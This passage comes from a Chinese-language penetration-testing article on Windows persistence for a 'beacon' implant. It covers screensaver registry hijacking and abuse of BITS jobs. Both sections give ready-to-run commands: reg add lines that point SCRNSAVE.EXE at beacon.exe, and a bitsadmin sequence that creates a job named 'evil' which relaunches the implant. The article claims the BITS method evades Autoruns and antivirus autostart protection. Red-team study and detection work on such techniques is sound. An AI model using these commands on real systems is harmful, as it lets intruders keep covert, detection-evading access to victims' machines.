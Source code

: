 由于时间区间的落点不一定相同，特定情况下有可能会出现多个beacon：

![](https://xzfile.aliyuncs.com/media/upload/picture/20200803142425-fa7f926c-d551-1.jpeg)

看下进程树，隐蔽性一般：

![](https://xzfile.aliyuncs.com/media/upload/picture/20200803142437-01598b56-d552-1.jpeg)

## 0x06 屏幕保护

权限要求：普通用户。  
虽然未必所有用户都会使用屏幕保护，但幸运的是屏幕保护程序的相关配置都在注册表中，如下图的四个键：

![](https://xzfile.aliyuncs.com/media/upload/picture/20200803142509-14987ba0-d552-1.jpeg)

完整路径如下：

```
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut
HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE
```

直接写入注册表即可：

```
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d C:\Users\hunter\Desktop\beacon.exe /f
reg add "hkcu\control panel\desktop" /v ScreenSaveActive /d 1 /f
reg add "hkcu\control panel\desktop" /v ScreenSaverIsSecure /d 0 /f
reg add "hkcu\control panel\desktop" /v ScreenSaveTimeOut /d 60 /f
```

看一下进程树，winlogon.exe拉起来的，隐蔽性一般：

![](https://xzfile.aliyuncs.com/media/upload/picture/20200803142526-1ea7abde-d552-1.jpeg)

这里又有个小坑，如果从未设置过屏保程序的话，除“ScreenSaveActive”默认值为1，其他键都是不存在的，而屏保程序的正常运行必须保证这几个键都有数据才可以，因此必须把4个键都重写一遍。另外，经测试屏保程序最短触发时间为60秒，即使改成小于60的数值，依然还是60秒后执行程序。  
当然，从注册表路径也可以看出这种方式只能获得当前用户权限的shell，优点是不需要提权即可维持。

## 0x07 后台智能传输服务（BITS）

权限要求：管理员权限（不必过UAC）。  
后台智能传送服务 (BITS) 可帮助传输大量数据而不会降低网络性能。它通过在小区块中传输数据、充分利用可用的但未使用的带宽和在目的地重组数据的方式来实现此操作。在 Microsoft® Windows Server 2003 家族操作系统上和 Microsoft® Windows 2000 上都支持 BITS。——摘自百度百科  
网上的“渗透教程”中有很多利用bitsadmin命令下载文件或执行命令的操作，但它其实也可以用来做权限维持，并且可以绕过Autoruns的检测以及杀软的自启命令执行保护。  
添加任务的命令很简单，只有4条：

```
bitsadmin /create evil
bitsadmin /addfile evil "C:\Users\hunter\Desktop\beacon.exe" "C:\Users\hunter\Desktop\beacon.exe"
bitsadmin.exe /SetNotifyCmdLine evil "C:\Users\hunter\Desktop\beacon.exe" NUL
bitsadmin /Resume evil
```
